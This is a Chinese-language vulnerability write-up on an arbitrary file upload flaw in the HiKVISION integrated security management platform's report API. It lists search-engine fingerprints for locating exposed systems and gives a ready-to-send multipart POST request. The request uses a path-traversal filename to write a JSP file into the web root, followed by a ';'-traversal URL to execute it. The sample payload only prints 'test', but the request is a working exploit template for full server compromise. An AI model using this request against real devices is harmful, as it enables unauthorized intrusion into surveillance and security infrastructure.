

# HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台 

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面


```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```


```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

构造请上传文件 (通过 env泄漏获取绝对路径，路径一般不会修改)


```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```


```plain
/portal/ui/login/..;/..;/new.jsp
```


